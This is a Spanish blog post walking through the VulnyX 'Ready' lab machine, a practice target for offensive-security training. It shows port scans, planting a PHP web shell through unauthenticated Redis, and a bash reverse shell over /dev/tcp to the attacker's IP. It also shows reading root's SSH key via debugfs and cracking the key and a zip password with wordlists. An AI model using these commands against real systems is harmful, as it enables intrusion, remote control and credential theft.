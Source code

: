 ```yaml
---
layout: post
title:  "Ready"
date:   2024-04-11 11:37:29
categories: sample
vm: vulnyx
---
```


<style>
  .post-content {
    color: #51c25be1; /* Cambia el color del texto */
  }
</style>

<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/vulnyx/vulnyx.png" width=252></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Ready</td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Easy</span></td> </tr>
  <tr> <td><strong>Link OVA:</strong><a href="https://vulnyx.com/#ready"> Vulnyx</a></td> </tr>
</table>

<br>

![machine](/notas/public/img/vulnyx/ready/readypc.png){:.margin}

**1\.** teniendo la ip de la maquina, hacemos un descubrimiento de puertos

`sudo nmap -p- --open -sS -T5 --min-rate=5000 192.168.1.7 -n -Pn`

![p80](/notas/public/img/vulnyx/ready/nmap_ports.png){:.margin}

**2\.** lanzamos un conjunto de script de reconocimiento a dichos puertos

`sudo nmap -p22,80,6379,8080 -sCV -n -Pn 192.168.1.7`

![versions](/notas/public/img/vulnyx/ready/nmap_version.png){:.margin}

**3\.** Revisamos apache en los puertos 80 y 8080, no vemos nada interesante

![versions](/notas/public/img/vulnyx/ready/apache_80.png){:.margin}
![versions](/notas/public/img/vulnyx/ready/apache_8080.png){:.margin}

**4\.** Podemos fuzzear ambos servicios de apache, pero no encontraremos nada interesante

`gobuster dir -u http://192.168.1.7:80/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt --add-slash -t 50 -x html,php,txt -b 404,403`

![versions](/notas/public/img/vulnyx/ready/fuzz80.png){:.margin}

`gobuster dir -u http://192.168.1.7:8080/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt --add-slash -t 50 -x html,php,txt -b 404,403`

![versions](/notas/public/img/vulnyx/ready/fuzz8080.png){:.margin}

**5\.** Probamos acceder a redis sin credenciales (Se puede), tambien podemos crear un archivo php en el servidor apache

`redis-cli -h 192.168.1.7`

`config get dir`

`config set dbfilename shell.php`

`config set dir /var/www/html/`

`set shell.php "<?php system($_GET['cmd']);?>"`

`save`

`exit`

![redis](/notas/public/img/vulnyx/ready/redis.png){:.margin}

**6\.** Apuntamos hacia nuestro archivo generado, incluimos el parametro cmd para mediante este ingresar comandos de sistema.

\- En el puerto 80 no lo encontramos: `http://192.168.1.7/shell.php?cmd=id`
![notfound](/notas/public/img/vulnyx/ready/not_found_80.png){:.margin}

\- Sobre el 8080 si que podemos: `http://192.168.1.7:8080/shell.php?cmd=id`

![found](/notas/public/img/vulnyx/ready/found_8080.png){:.margin}

**7\.** Nos ponemos en escucha en el puerto 443

`sudo nc -nlvp 443`

![nc](/notas/public/img/vulnyx/ready/nc.png){:.margin}

**8\.** Ingresamos el comando para obtener un Reverse Shell

`http://192.168.1.7:8080/shell.php?cmd=bash -c "bash -i >%26/dev/tcp/192.168.1.13/443 0>%261"`

![revershell](/notas/public/img/vulnyx/ready/revershell.png){:.margin}

**9\.** Ya teniendo acceso a la máquina, estamos como usuario Ben, revisamos los grupos al que pertenece.

-Pertenemos al grupo disk, con esto podemos montar y desmontar Unidades

`id`

![id](/notas/public/img/vulnyx/ready/id.png){:.margin}

**10\.** Revisamos unidades disponibles

`df -h`

![df](/notas/public/img/vulnyx/ready/df.png){:.margin}

**11\.** Buscamos la herramienta de análisis y depuración de archivos   

`find / -type f -name debugfs 2>/dev/null`

`which debugfs`

![debugs](/notas/public/img/vulnyx/ready/debugfs.png){:.margin}

**12\.** Ingresamos al disco sda1, luego leemos la llave privada de root.

`/usr/sbin/debugfs /dev/sda1`

`cat /root/.ssh/id_rsa`

![idrsa](/notas/public/img/vulnyx/ready/cat_idrsa.png){:.margin}

**13\.** Vemos que la llave esta protegida, lo copiamos y lo guardamos en un archivo en nuestra máquina local 

`nano key`

![key](/notas/public/img/vulnyx/ready/key.png){:.margin}

**14\.** En este caso usare la herramienta RSAcrack para obtener un passphrase

`sudo RSAcrack -w /usr/share/wordlists/rockyou.txt -k key`

![rsacrack](/notas/public/img/vulnyx/ready/rsacrack.png){:.margin}

**15\.** Teniendo la clave nos conectamos como root por ssh

`ssh -i key root@192.168.1.7`

![ssh](/notas/public/img/vulnyx/ready/ssh.png){:.margin}

**16\.** Vemos que tenemos un comprimido, abrimos un servidor local

`ls`

`python3 -m http.server 8081`

![img](/notas/public/img/vulnyx/ready/python_server.png){:.margin}

**17\.** Desde nuestra máquina local nos descargamos el comprimido

`wget http://192.168.1.7:8081/root.zip`

![img](/notas/public/img/vulnyx/ready/wget.png){:.margin}

**18\.** Intentamos descomprimir pero necesitamos un acontraseña

`unzip root.zip`

![img](/notas/public/img/vulnyx/ready/unzip.png){:.margin}

**19\.** Utilizamos zip2john para obtener un hash que representa la contraseña

`zip2john root.zip > hashzip`

![img](/notas/public/img/vulnyx/ready/zip2john.png){:.margin}

**20\.** Ahora desciframos la contraseña

`john --wordlist=/usr/share/wordlists/rockyou.txt hashzip`

![img](/notas/public/img/vulnyx/ready/clave.png){:.margin}

**21\.** Teniendo la clave procedemos a descomprimir, asi obtenemos la "flag" de root

`unzip root.zip`

![img](/notas/public/img/vulnyx/ready/flag.png){:.margin}

<br>

##### **_finalizado._**